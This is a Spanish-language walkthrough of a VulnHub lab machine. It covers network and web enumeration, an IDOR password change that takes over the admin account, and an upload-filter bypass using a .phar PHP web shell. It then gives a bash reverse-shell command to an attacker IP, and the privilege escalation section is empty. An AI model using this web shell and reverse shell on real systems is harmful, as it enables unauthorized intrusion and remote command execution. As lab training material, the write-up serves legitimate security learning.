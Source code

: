 - Tags: #WebEnumeration #AbusoIDdeUsuario #AbusoDeFileUpload #VulnHub #linux 
_______
## Reconocimiento 
_____
al ser una maquina de VulnHub la cual desplegamos desde una maquina virtual tenemos que hacer un escaneo con **Arp-scan** de nuestra red para saber la **direccion IP** de la maquina victima y proceder con **Nmap**.

```arp-scap
arp-scan --localnet
```
_____
![](attachment/fbbd9526b807611614ef227e08d7493a.png)
____
```nmap
namp -p- --open -sS --min-rate 5000 -vvv -n -Pn <direccionIP> -oG allPort
```
____
luego de realizar el escaner con nmap nos arroja que tenemos tanto el puerto **22 (ssh)** como el puerto **80 (http)**, procedemos a realizar el escaner con los scripts de reconocimiento de nmap para finalmente ver a que nos enfrentamos.
____
```
nmap -p 22,80 <direccion_IP> -sCV -oN targete
```
___
![](attachment/2f6d159af111f5922c703ee37772bf73.png)
____
como resultado nos muestra que se esta corriendo en la web, no es mas que apache y ademas tenemos su versión, procedemos a verificar la web.

la pagina tiene el siguiente panel de login.
____
![](attachment/b728edf2381a93b137c9f9c5e6488bb5.png)
___
procedemos a registrarnos e ingresar, se nos muestra lo siguiente.
_____
![](attachment/cf03894a033ba354a372a3a1e29fc62f.png)
___
al parecer tenemos dos apartados que nos permite modificar los datos de nuestra cuenta, pero hay algo que llama la atención al instante y es que nuestro usuario esta identificado con el id 2, lo que significa que deben de haber mas usuarios.

pero antes de hacer algo mas, tratemos de enumerar directorios u otros subdominios a ver que vemos.

para eso usaremos la herramienta gobuster con un diccionario de secList.
______
```gobuster
gobuster dir -u http://<URL> o <DireccionIP>/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20
```
____
aplicando el siguiente reconocimiento obtenemos que.
___
![](attachment/f00920bd461b65a55d9d7c985ed2646a.png)
____
todos son directorios validos los cuales podemos probar en la URL.

volviendo a lo que antes identificamos y es que el usuario se identifica por un ID, probemos capturar la petición de cambio de clave a ver que tal, todo esto utilizando BurpSuite.
___
![](attachment/8ff88fd10423b4cb2b6cc68e0e3026a7.png)
____
intentamos colocar en id el numero 1 y en clave colocamos una nueva a ver si funciona.
___
![](attachment/57fdd490e5f9d5d048cedfb79c97e4af.png)
____
y podemos observar que nos dice clave actualizada, ahora intentamos ingresar como admin.
____
![](attachment/35b7be41ba3f637e50e6afee9fa5aba4.png)
_____
con las credenciales admin y la clave que cambiamos desde BurpSuite ingresamos como admin de la pagina. Se observa que tiene un apartado de subida de archivo, la cual probamos y admite solo JPG, PNG Y GIF pero no hay que fiarse.

con BurpSuite haremos un ataque tipo sniper para poder ver que exenciones php son validas y si las hay.
______
![](attachment/a7d2cc1b9905d3eb83eab21a5d9164ad.png)
___
cualquier otra extensión php sirve, en este caso es nos funciona el .phar, asi que haremos nuestros archivo cargado con una reverse shell que nos permitirá ejecutar comando.
___
```php
<?php
 echo "<pre>" . shell_exec(&_GET['cmd']) . "</pre>";
?>
```
___
esa sera la estructura de nuestro archivo el cual tendrá como nombre **reverse.phar** y es el archivo que cargaremos.

una vez cargado el archivo podremos verlo en el apartado de `http://<direccionIP>/upload/archivo.phar` y de ahí ejecutar nuestro codigo. 
____
![](attachment/219785d0ff739195209ff2df213fea41.png)
____
y es así que podremos entablar una reverse shell con nuestra maquina de atacante.

con bash: `bash -c "bash -i >%26 /dev/tcp/192.168.0.103/443 0>%261"`

y es así como nos conectamos a la maquina victima.
____
## Escalada de Privilegios 
_____

